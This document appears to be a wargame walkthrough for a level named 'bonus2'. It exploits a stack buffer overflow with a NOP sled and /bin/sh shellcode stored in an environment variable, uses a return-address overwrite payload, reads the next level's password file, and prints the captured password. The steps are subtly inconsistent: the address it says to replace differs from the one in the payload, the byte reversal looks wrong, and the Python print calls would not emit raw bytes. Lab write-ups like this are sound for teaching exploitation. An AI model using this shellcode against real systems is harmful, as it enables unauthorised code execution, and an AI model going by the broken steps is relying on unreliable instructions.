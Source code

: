 # Bonus 02 Walkthrough

## Binary analysis

The binary is vulnerable to a buffer overflow. By overflowing the buffer, we can overwrite the return address and redirect execution to shellcode placed in an environment variable, similar to previous levels. The offset to the return address is 23 bytes into the second argument.

## Exploitation

1. Export the shellcode in an environment variable (as in previous levels):
   ```bash
   export SC=$(python -c 'print(b"\x90"*5000 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
   ```
2. Find the address of the shellcode in the environment (using gdb and `x/2000s (char **)environ`).
3. Overflow the buffer and overwrite the return address with the address of the shellcode:
   ```bash
   ./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 23 + "\xe6\xfe\xff\xbf"[::-1])')
   ```
   (Replace `\xbf\xff\xeb\xff` with the correct address for your environment)

## Commands used

```
export SC=$(python -c 'print(b"\x90"*5000 + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")')
./bonus2 $(python -c 'print("A" * 40)') $(python -c 'print("B" * 23 + "\xe6\xfe\xff\xbf"[::-1])')
cat /home/user/bonus3/.pass
```

## Result

After running the exploit, we get a shell as bonus3 and can read the password:

```
cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

Copy the password for the next level. 